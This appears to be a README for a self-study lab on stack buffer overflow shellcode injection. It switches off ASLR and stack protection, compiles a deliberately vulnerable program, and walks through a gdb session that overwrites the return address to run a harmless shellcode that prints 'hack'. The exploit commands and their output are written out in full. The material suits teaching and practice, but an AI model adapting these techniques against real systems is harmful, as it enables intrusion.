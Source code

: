 #PREPARE!
To start practicing injecting shell code in this repo you have:
- `shellcode.asm` - simple asm code that print one word. it doesn't create any `\x00` bytes so you'll not have any problems with `strcpy()`.
- `victim.c` - vulnerable program.
- `shellcode.c` - executor for our `shellcode.asm` 

First prepare your OS:

Using any text editor write to `/etc/sysctl.conf` next lines:
```
kernel.randomize_va_space = 0
kernel.exec-shield = 0
```

And run `$ sudo sysctl -p`

After that run `ulimit -c unlimited`

#FIGHT
Run `make` to compile all the files and you will get something like 
```
rm -f shellcode victim *.o *~
gcc -g -z execstack -Wall -fno-stack-protector -o victim victim.c
nasm -f elf shellcode.asm
ld -o shellcode shellcode.o
sh getshell.sh
\xeb\x19\x31\xc0\x31\xdb\x31\xd2\x31\xc9\xb0\x04\xb3\x01\x59\xb2\x18\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe2\xff\xff\xff\x68\x61\x63\x6b
```

The last lines after sh.getshell is your shellcode to execute wherever you want.

To completely finish your action you can do next steps:

1. run `gdb victim`.

2. exec victim with params (count of "A" "B" "C" letters you must find experimentally to have `$EIP` be filled with only letter "B" - 42 code): 
  ```
  (gdb) r `python -c 'print "A"*10 + "B"*4 + "C"*30'`
  Starting program: /root/lab/victim `python -c 'print "A"*12 + "B"*4 + "C"*30'`
  So... The End...
  AAAAAAAAAABBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
  
  Program received signal SIGSEGV, Segmentation fault.
  0x42424242 in ?? ()
```
3. Replace `"C"*30` with your shellcode you got after make
  ```
  (gdb) r `python -c 'print "A"*12 + "B"*4 + "\xeb\x19\x31\xc0\x31\xdb\x31\xd2\x31\xc9\xb0\x04\xb3\x01\x59\xb2\x18\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe2\xff\xff\xff\x68\x61\x63\x6b"'`
  Starting program: /root/lab/victim `python -c 'print "A"*12 + "B"*4 + "\xeb\x19\x31\xc0\x31\xdb\x31\xd2\x31\xc9\xb0\x04\xb3\x01\x59\xb2\x18\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe2\xff\xff\xff\x68\x61\x63\x6b"'`
  So... The End...
  AAAAAAAAAAAABBBB�1�1�1�1ɰ�Y�1�1������hack
  
  Program received signal SIGSEGV, Segmentation fault.
  0x42424242 in ?? ()
  ``` 
4. After that you need to replace `"B"*4` with return address. You can look for it in stack or just try to use address from `$ESP` (cause we've put our code right after current program).
  
  ```
  (gdb) x/256xb $esp
  0xbffffca0: 0xeb    0x19    0x31    0xc0    0x31    0xdb    0x31    0xd2
  0xbffffca8: 0x31    0xc9    0xb0    0x04    0xb3    0x01    0x59    0xb2
  0xbffffcb0: 0x18    0xcd    0x80    0x31    0xc0    0xb0    0x01    0x31
  0xbffffcb8: 0xdb    0xcd    0x80    0xe8    0xe2    0xff    0xff    0xff
  ```
5. So **0xbffffca0** is our new return address. Just replace `"B"*4` with this address reversed. Here we go!
  
  ```
  Starting program: /root/lab/victim `python -c 'print "A"*12 + "\xa0\xfc\xff\xbf" + "\xeb\x19\x31\xc0\x31\xdb\x31\xd2\x31\xc9\xb0\x04\xb3\x01\x59\xb2\x18\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe2\xff\xff\xff\x68\x61\x63\x6b"'`
  So... The End...
  AAAAAAAAAAAA�����1�1�1�1ɰ�Y�1�1������hack
  hack
  Program exited normally.
  (gdb)
  ```

After all you can find and try to inject any other shellcode from (Shell Storm)[http://shell-storm.org/shellcode/]
#Requirements
- gcc
- make
- objdump
- nasm
- python or perl

#Thanks
[LifeDJIK](https://github.com/LifeDJIK) for helping to understand some parts.

#Useful links
- [Writing Buffer Overflows](http://www.madirish.net/142)
- [Shellcoding for Linux and Windows Tutorial](http://www.vividmachines.com/shellcode/shellcode.html)
- [x86](https://en.wikipedia.org/wiki/X86)
- [OWASP](https://www.owasp.org/index.php/Buffer_overflow_attack)